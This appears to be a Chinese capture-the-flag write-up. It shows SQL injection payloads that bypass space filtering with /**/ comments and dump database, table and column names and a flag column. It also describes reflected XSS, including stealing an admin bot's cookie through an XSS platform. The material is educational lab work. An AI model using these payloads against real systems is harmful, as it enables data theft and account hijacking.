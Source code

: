 ## 过滤空格

用注释符绕过

```
0/**/union/**/select/**/1,2
0/**/union/**/select/**/1,database()/**/
0/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='sqli'
0/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='imvcxeoroz'
0/**/union/**/select/**/1,group_concat(qpncjllwce)/**/from/**/imvcxeoroz
```

### XSS
### 反射型

**漏洞概述**

XSS，全称Cross Site Scripting，即跨站脚本攻击，某种意义上也是一种注入攻击，是指攻击者在页面中注入恶意的脚本代码，当受害者访问该页面时，恶意代码会在其浏览器上执行

**解题思路**
- 第一个表单，测试``<script>alert(1);</script>`` 弹框
- 第二个表单是发送给后台的bot使其遭受攻击，这里模拟后台管理员点击恶意xss链接盗取cookie

在XSS平台创建一个项目，配置代码如下:

![](./img/xss1.png)
